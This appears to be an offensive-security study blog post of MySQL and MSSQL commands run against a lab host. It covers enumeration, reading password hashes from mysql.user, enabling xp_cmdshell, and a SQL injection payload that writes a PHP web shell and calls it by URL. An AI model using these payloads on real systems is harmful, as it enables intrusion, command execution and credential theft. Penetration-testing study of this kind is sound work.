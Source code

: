 ```yaml
---
layout: post
title: SQL COMMANDS
titledate: 09/01/23
tags: ["infosec","offsec", "sql"]
---
```


<h4>MySQL</h4>

connect to remorte mysql database

    $ mysql -u root -p'root' -h 192.168.50.50 -P 3306

    $ select version();

return current user and hostname

    $ select system_user();

list databases

    $ show databases;

show tables in database

    $ show tables from mysql;

enter database

    $ use database;

list users

    $ SELECT user FROM mysql. user; 

list all values available to user

    $ select * from mysql.user where user = 'don';

show authentication_string of user

    $ SELECT user, authentication_string FROM mysql.user WHERE user = 'don';

showing specific value of user

    $ select plugin from mysql.user where user = 'don';


<h4>MSSQL</h4>

we can use impacket to connect to mssql on windows

    $ impacket-mssqlclient Administrator:Lab123@192.168.50.50 -windows-auth

    $ SELECT @@version;

list databases

    $ SELECT name FROM sys.databases;

we don't care about the master tempdb model and msdb databases

query tables in database we care about

    $ SELECT * FROM don.information_schema.tables;

query specific table information

    $ select * from don.dbo.users;

explore sysuers table inside master database

    $ select * from master.dbo.sysusers;

<h4>xp_cmdshell</h4>

after we connect to the db

    $ EXECUTE sp_configure 'show advanced options', 1;
    $ RECONFIGURE;
    $ EXECUTE sp_configure 'xp_cmdshell', 1;
    $ RECONFIGURE;
    $ EXECUTE xp_cmdshell 'whoami';

we can write files on the server with SELECT INTO_OUTFILE

    $ ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

here we try to use a union select to write a php web shell to /html/tmp on the server

now by entering the above statement into the form field we are injecting our webshell to the specified directory

and then in the url - we can attempt to perform the http request to our webshell with the cmd=

    http://192.168.50.50/tmp/webshell.php?cmd=id
